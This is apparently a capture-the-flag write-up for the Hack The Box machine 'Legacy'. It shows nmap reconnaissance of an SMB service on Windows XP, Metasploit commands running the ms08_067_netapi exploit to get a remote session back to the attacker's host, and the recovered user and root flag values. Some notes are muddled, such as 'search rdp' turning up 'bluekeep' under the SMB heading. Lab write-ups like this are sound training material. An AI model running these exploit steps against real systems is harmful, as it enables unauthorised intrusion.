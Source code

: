 ### IP
`10.10.10.4`

# Recon

### nmap
`nmap -sC -sV 10.10.10.4 -o Legacy.nmap`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-18 21:29 EST
Nmap scan report for 10.10.10.4
Host is up (0.048s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h56m34s, deviation: 1h24m51s, median: -4h56m35s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:77:8e (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-11-19T01:33:18+02:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.51 seconds

```
* looks like we have smb on ports 139 & 445 with a workgroup called `HTB\x00`
* also looks like rdp on port 3389

# Exploitation

### rdp
* I tried out some exploits here that were on searchsploit, but it looked like rdp maybe wasn't actually up and running on the machine?

### smb

* We can look for exploits in metasploit.
	* `search rdp` shows us an interesting exploit called "bluekeep"
* Let's set up the exploit:
* Note: `10.10.14.19` should be replaced with your own ip
```
use exploit/windows/smb/ms08_067_netapi
set RHOST 10.10.10.4
set LHOST 10.10.14.19
run
```
* This gives us a session with access to the command prompt 

* Looking around the directories a bit, I see `C:\Documents and Settings\john\Desktop`, which has a `user.txt` file in it
* I must have spent like 10 minutes trying the `type` and `more` and other commands to cat out the file. After writing `help`, it turns out `cat is an available command.
* `cat user.txt` give us the user flag: `e69af0e4f443de7e36876fda4ec7644f`

* If we go to `C:\Documents and Settings\Administrator\Desktop`, we get the root flag as well: `993442d258b0e0ec917cae9e695d5713`

